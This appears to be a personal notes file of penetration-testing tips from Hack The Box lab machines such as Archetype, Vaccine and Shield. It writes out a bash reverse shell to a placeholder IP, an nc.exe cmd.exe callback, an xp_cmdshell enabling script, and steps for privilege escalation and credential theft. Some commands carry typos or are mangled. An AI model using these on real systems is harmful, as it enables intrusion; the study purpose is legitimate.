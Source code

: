 Intended to capture observations during the walkthroughs for processes to apply or things to  remember when coming across certain steps during information gathering.

# Archetype
- If you see SMB, see if anonymous access is granted
    - `smbclient -N -L \\\\IP_ADDR\\`
    - If any are interesting, try to connect with `smbclient -N \\\IP_ADDR\shared_drive_name`

## `nmap`
Clever way to filter out the ports to analyze in greater detail:
```
ports=$(nmap -p- --min-rate=1000  -T4 10.10.10.27 | grep ^[0-9] | cut -d '/' -f1 | tr '\n' ',' | sed s/,$//)nmap -sC-sV-p$ports10.10.10.27
```

## SQL
`SQL> SELECT IS_SRVROLEMEMBER ('sysadmin')` run once authenticated to SQL DB to reveal whether current user has sysadmin privs
- Can enaable `xp_cmdshell`, with the following script:
```
EXEC sp_configure 'Show Advanced Options', 1;
reconfigure;sp_configure;
EXEC sp_configure 'xp_cmdshell', 1;
reconfigure;
xp_cmdshell "whoami";
```

## Powershell
Powershell history file: `C:\Users\sql_svc\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadline\ConsoleHost_history.tx`

# Vaccine
Use `zip2john` to brute force attack password protected Zip files

Use www.cractstation.net for rainbow tables for known passwords

## SQL
- If using `sqlmap` and attacking a postgreSQL DB, use `--os-shell` to attempt to get shell
- If you have OS Shell, run `bash -c 'bash -i >& /dev/tcp/<your_ip>/4444 0>&1'` to get reverse shell (requires `nc` listener)

# Shield
- `gobuster` is an alternative to brute force open directories for a web app
- Can use `wp_admin_shell_upload` to get a meterpreter shell
- Upload the `nc.exe` executable and then execute it with `execute -f nc.exe -a "-e cmd.exe IP_ADDR LIST_PORT"`
- `JuicyPotato` to escalate privs

# Pathfinder
- `masscan` to determine open ports faster
- `bloodhound python` generates the files necessary to ingest into the `bloodhound` app
- `GetChangesAll` privileges within a domain can request replication data from a DC aka collect user hashes
- If Kerberos pre-auth is disabled, it's vulnerable to ASREPRoasting (https://www.harmj0y.net/blog/activedirectory/roasting-as-reps/)

# Included
- Check with `udp` scan for nmap if nothing too fruitful, can show tftp (port 69/udp)
- Vulnerable to directory traversal
- Pentest Monkey Reverse Shell Script: https://github.com/pentestmonkey/php-reverse-shell/blob/master/php-reverse-shell.php
- LXD Group = high privileged linux Group, which can be used to escalate to root

# Markup
- When there's LFI, and `ssh` enabled, look for private keys (`~/.ssh/id_rsa`) to gain access
- Use `icacls` on Win to look at permission
- Windows `exe`s are available in Kali under `/usr/share/windows-binaries`

# Guard
- escape permissions limitations with `man man` then `!bash`
- `/var/backups` location to check when enumerating the system
- `hashcat -m 1800` = unix passwords

# Base
- The developer is using `strcmp` to check the username and password, which is insecure and can easily be bypassed. This is due to the fact that if `strcmp` is given an empty array to compare against the stored password, it will return `null`. In PHP the `==` operator only checks the value of a variable for equality, and the value of `NULL` is equal to `0`. The correct way to write this would be with the `===` operator which checks both value and type. Let's open burp and catch the login request.
- Locationf of webshells on kali `/usr/share/webshells`
- If website is running on Linux - Enumeration tactic: `/var/www/html/login`
- Enumeration - `sudo -l` shows what commands a user can run